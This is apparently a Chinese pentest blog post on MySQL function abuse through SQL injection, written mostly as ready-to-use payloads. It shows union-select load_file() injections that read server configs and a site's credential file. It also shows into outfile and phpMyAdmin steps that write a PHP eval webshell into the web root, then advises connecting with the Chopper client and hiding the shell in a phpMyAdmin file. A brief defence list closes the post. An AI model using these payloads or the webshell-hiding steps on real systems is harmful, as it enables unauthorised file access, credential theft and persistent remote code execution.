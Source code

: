 +++
date = "2016-06-20T08:10:27+08:00"
description = ""
draft = false
tags = ["injection"]
title = "SQL注入之MySQL函数利用"
topics = ["Pentest"]

+++

### 0x00 load_file()
* 条件:

```
1. 要有file_priv权限
2. 知道文件绝对路径
3. 能使用union
4. 对web目录有读权限  
注：若过滤了单引号，则可以将函数中的字符进行hex编码
```

* 一般步骤
    * 读/etc/init.d下的东西，这里有配置文件路径
    ```
    ?id=1' union select 1,2,load_file('/etc/init.d/httpd')
    ```

    * 得到web安装路径  
    ```
    ?id=1' union select 1,2,load_file('/etc/apache/conf/httpd.conf')
    ```

    * 读取密码文件
    ```  
    ?id=1' union select 1,2,load_file('/site/xxx.com/conf/conn.inc.php')
    ```

### 0x01 into outfile
* 条件：

```
1. 要有file_priv权限  
2. 知道网站绝对路径  
3. 要能用union  
4. 对web目录有写权限  
5. 没有过滤单引号
```

* 一般方法  
当知道路径时，可以直接用?id=1 union select "<?php @eval($_POST['c']);?>" into outfile("C:/phpStudy/WWW/a.php")

* 其他方法 
    * 登陆phpMyAdmin  
    ```
    use test;  选择数据库为test
    create table aaa(bbb varchar(64));   在数据库中创建一个表aaa
    insert into aaa values("<?php @eval($_POST['c']);?>"); --在aaa中插入一条数据<?php @eval($_POST['c']);?>
    select * from aaa into outfile 'C:/phpStudy/WWW/a.php'; --将aaa中的数据导出到文件a.php
    ```

    * localhost:80/a.php能访问  
    ```
    drop aaa; --删除建立的表
    ```

    * 然后菜刀连接  
    ```ini
    菜刀连接http://www.aa.com/a.php，然后更改shell的名字并将shell放在较隐蔽的地方，比如C:\phpStudy\WWW\phpMyAdmin\setup\lib\common.php
    ```

### 0x02 防御
* 数据库连接账号不要用root权限
* php关闭报错模式
* mysql账户没有权限向网站目录写文件